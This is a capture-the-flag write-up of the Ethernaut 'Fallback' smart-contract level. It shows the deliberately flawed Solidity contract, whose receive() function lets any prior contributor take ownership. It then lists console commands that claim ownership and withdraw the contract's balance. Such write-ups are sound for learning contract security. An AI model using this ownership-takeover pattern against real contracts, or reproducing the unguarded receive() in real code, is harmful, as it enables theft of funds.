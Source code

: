 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg">

## Exploration

Given contract from Ethernaut.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
Challenge wants us to own the contract and withdraw all contribution from the contract. For this purpose, we should contribute this contract and call ```receive()``` function. In this way, we will own of the contract and withdraw all contribution.

## Subverting

Who is owner?

```js
await contract.owner()
"0x9CB391dbcD447E645D6Cb55dE6ca23164130D008"
```
The first thing to solve this challenge is contribute some wei.

```js
await contract.contribute({value: 4})
```
This notification met me.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/contribute.png">

```js
await contract.getContribution()
Object { negative: 0, words: (2) […], length: 1, red: null }
​
length: 1
​
negative: 0
​
red: null
​
words: Array [ 4, <1 empty slot> ]
​​
0: 4
​​
length: 2
​​
<prototype>: Array []
​
<prototype>: Object { _init: _init(t, e, r), _initNumber: _initNumber(t, e, r), _initArray: _initArray(t, e, r), … }
```
### JSON RPC ETH

One way to call receive function is send external value to contract with console.Part of understanding “what is JSON-RPC” is understanding RPC itself. The concept of a remote procedure call, or RPC, in distributed computing refers to the process by which a computer program causes the execution of a subroutine or a procedure in a different location, known as an address space. Such remote address spaces in distributed computing refer to other computers in a network.

RPCs are coded as though they were just local procedure calls. In other words, a programmer will code the same thing even if the subroutine was meant to be local or remote. There is no distinguishable difference in coding for both local and remote interactions, and the programmer does not need to explicitly indicate that such a procedure call is to be run locally or remotely.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/jsonrpc.png">

For the call receiving function, we use JSON RPC with the ``sendTransaction()`` method and enter the value that will make us the owner of the contract.

```js
await contract.sendTransaction({value: 1})
```
Check owner.

```js
await contract.owner()
"0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b"

await contract.withdraw()

await contract.getContribution()
```
And submit instance.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/submit.png">

**_by wasny0ps_**
